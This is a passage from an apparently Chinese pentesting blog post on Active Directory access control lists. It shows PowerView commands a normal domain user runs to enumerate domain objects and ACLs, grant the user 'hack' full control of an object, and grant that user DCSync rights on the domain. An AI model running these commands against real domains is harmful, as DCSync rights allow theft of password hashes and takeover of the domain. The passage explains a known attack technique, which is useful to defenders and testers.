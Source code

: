 


域中的ACL

------



ACL还提供对Active Directory目录服务对象的访问控制。 活动目录服务接口(ADSI，Active Directory Service Interfaces)包括创建和修改这些ACL内容的例子。 官方文档：[Controlling object access in Active Directory Domain Services](https://docs.microsoft.com/en-us/windows/win32/ad/controlling-access-to-objects-in-active-directory-domain-services "Controlling object access in Active Directory Domain Services")



Powershell调用ADSI的参考资料：[Using PowerShell to assign permissions on Active Directory objects](https://social.technet.microsoft.com/Forums/windowsserver/en-US/df3bfd33-c070-4a9c-be98-c4da6e591a0a/forum-faq-using-powershell-to-assign-permissions-on-active-directory-objects?forum=winserverpowershell "Using PowerShell to assign permissions on Active Directory objects")



Empire中的powerview.ps1脚本已经集成了ACL的相关功能,以普通域用户即可执行以下命令



```
import-module powerview.ps1       
#获得当前域内所有对象      
Get-DomainObject -Domain xie.com       
#获得当前域内所有对象的ACL      
Get-DomainObjectAcl -Domain xie.com       
#获得指定用户的ACL      1
Get-DomainUser hack       1
#添加用户hack对指定对象(guid)的完全访问权限      1
Add-DomainObjectAcl -TargetIdentity '483e9973-2d45-4e2f-b034-f272a26950e0' -PrincipalIdentity hack -Rights All       1
#移除用户hack对指定对象(guid)的完全访问权限      1
Remove-DomainObjectAcl -TargetIdentity '483e9973-2d45-4e2f-b034-f272a26950e0' -PrincipalIdentity hack -Rights All       1
#添加指定用户hack对域具有dcsync权限      2
Add-DomainObjectAcl -TargetIdentity 'DC=xie,DC=com' -PrincipalIde hack -Rights DCSync -Verbose
```




![](https://img-blog.csdnimg.cn/20201012165913390.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



![](https://img-blog.csdnimg.cn/20201012170010964.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



![](https://img-blog.csdnimg.cn/20201012170104988.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



###  adfind查询过滤ACL
